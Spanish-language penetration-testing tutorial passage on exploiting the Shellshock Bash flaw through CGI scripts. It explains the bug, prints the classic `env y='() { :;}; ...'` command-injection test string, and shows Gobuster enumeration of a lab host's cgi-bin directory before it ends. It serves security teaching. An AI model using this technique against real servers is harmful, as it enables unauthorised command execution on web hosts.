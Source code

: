 ## Shellshock via CGI

La vulnerabilidad Shellshock permite a un atacante explotar versiones antiguas de Bash que guardan incorrectamente las variables de entorno. Típicamente, al guardar una función como una variable, la función del shell se detendrá donde el creador define que termine. Las versiones vulnerables de Bash permitirán que un atacante ejecute comandos del sistema operativo que se incluyan después de una función almacenada dentro de una variable de entorno. Veamos un ejemplo simple donde definimos una variable de entorno e incluimos un comando malicioso después.



```bash
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

Cuando se asigna la variable anterior, Bash interpretará la porción `y='() { :;};'` como una definición de función para una variable `y`. La función no hace nada pero devuelve un código de salida `0`, pero cuando se importa, ejecutará el comando `echo vulnerable-shellshock` si la versión de Bash es vulnerable. Este (u otro comando, como un one-liner de reverse shell) se ejecutará en el contexto del usuario del servidor web. La mayoría de las veces, este será un usuario como `www-data`, y tendremos acceso al sistema pero aún necesitaremos escalar privilegios. Ocasionalmente, tendremos mucha suerte y obtendremos acceso como el usuario `root` si el servidor web se ejecuta en un contexto elevado.

Si el sistema no es vulnerable, solo se imprimirá `"not vulnerable"`.



```bash
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

not vulnerable
```

Este comportamiento ya no ocurre en un sistema parcheado, ya que Bash no ejecutará código después de que se importe una definición de función. Además, Bash ya no interpretará `y=() {...}` como una definición de función. En su lugar, las definiciones de funciones dentro de variables de entorno ahora deben tener el prefijo `BASH_FUNC_`.

---

## Hands-on Example

Veamos un ejemplo práctico para ver cómo, como pentesters, podemos encontrar y explotar esta falla.

### Enumeration - Gobuster

Podemos buscar scripts CGI utilizando una herramienta como `Gobuster`. Aquí encontramos uno, `access.cgi`.



```bash
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.204.231/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/03/23 09:26:04 Starting gobuster in directory enumeration mode
===============================================================
```